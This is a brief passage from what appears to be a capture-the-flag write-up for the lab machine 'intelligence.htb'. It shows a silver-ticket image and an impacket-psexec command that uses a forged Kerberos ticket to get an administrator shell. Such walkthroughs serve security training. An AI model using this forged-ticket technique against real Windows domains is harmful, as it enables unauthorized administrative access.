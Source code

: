 !["Creating a silver ticket"](assets/silver-ticket.png)

Then we use the ticket with psexec.py

```bash
$ KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass administrator@intelligence.htb
```

!["PsExec with Kerberos Auth"](assets/psexec-root.png)

And with that the box is finished!

---

